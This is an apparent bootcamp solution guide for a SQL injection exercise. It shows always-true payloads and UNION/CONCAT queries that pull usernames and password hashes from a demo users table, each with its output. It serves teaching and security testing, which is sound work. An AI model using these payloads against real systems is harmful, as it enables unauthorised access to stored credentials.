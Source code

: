 ## Solution Guide: SQL Refresher and Unintended SQL Queries

In this activity, you designed several malicious SQL payloads that you will use in the next activity to test for SQL injection vulnerabilities against the Replicants live production website.

---

1. `select first_name, last_name from users where id = ''`

    - For this query, place a `1` between the single quotes and select Run at the top left of the DB Fiddle page.

      - `select first_name, last_name from users where id = '1'`
      
    - After running the query, the program will output the following:
          
        first_name |	last_name
        ------------ | ------------- 
        admin	| admin
      
2. `select first_name, last_name from users where id = ''`

    - To use the payload for the most common always true query, add `' OR '1' = '1` to the input.
      
    - The following will cause the database to return all the values in the table:

      - `select first_name, last_name from users where user_id = '1' OR '1' = '1' `

    - After running the query, the program will output the following:
      
        first_name | last_name 
        ------------ | ------------- 
        admin | admin
        gordon | brown
        hack | me
        pablo | picasso
        bob | smith
        
3. `select first_name, last_name from users where id = ''`

    - You can use any value for an always true statement as long as it equals itself.

    - The following will also cause the database to return all the values in the table:

      - `select first_name, last_name from users where id = '1' OR 'dog' = 'dog' `
      
    - The new query will return the same results as the previous query:
        
      first_name | last_name
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith   

4. **Bonus**: `select first_name, last_name from users where id = ''`

    - Adding the `UNION` command to the query will allow us to pull data from other fields or tables.

    - When adding an additional command with `UNION`, the count of fields requested (2 - first_name, password) needs to match the count of the original request (2 - first_name, last_name):

      - `select first_name, last from users where id = '1' UNION select first_name, password from users where '1' = '1'`

    - Note that `UNION` is basically running two queries together:

      - `select first_name, last from users where id = '1'`  

      - `select first_name, password from users where '1' = '1'`
      
    - The query will return the following:
        
      | first_name | last_name                        |
      | ---------- | -------------------------------- |
      | admin      | admin                            |
      | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordon     | 575e22bc356137a41abdef379b776dba |
      | hack       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablo      | 8c7c9b1149e9de712b9e5abab45d700c |
      | bob        | 4a02ce029a840716c61ee8fcda10158e |

    - Note that the one result of the first part of the query is returned, followed by the six results of the second query.

5. **Bonus**: `select first_name, last_name from users where id = ''`

    - To pull data from all four fields, the `UNION` and `CONCAT` command can be added to the request.

    - Because the count of fields requested (3 - first_name, last_name, password) needs to match the count of the original request (2 - first_name, last_name), we need to combine two of the fields with the `CONCAT` command, using the following query:

      - `select first_name, last_name from users where user_id = '1' UNION select CONCAT(first_name,last_name), password from users;
               `
            
    - The query will return the following:
        
      | first_name   | last_name                        |
      | ------------ | -------------------------------- |
      | admin        | admin                            |
      | adminadmin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordonbrown  | 575e22bc356137a41abdef379b776dba |
      | hackme       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablopicasso | 8c7c9b1149e9de712b9e5abab45d700c |
      | bobsmith     | 4a02ce029a840716c61ee8fcda10158e |


    - Note how the first and last names are combined in the `first_name` field, starting with the second record.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
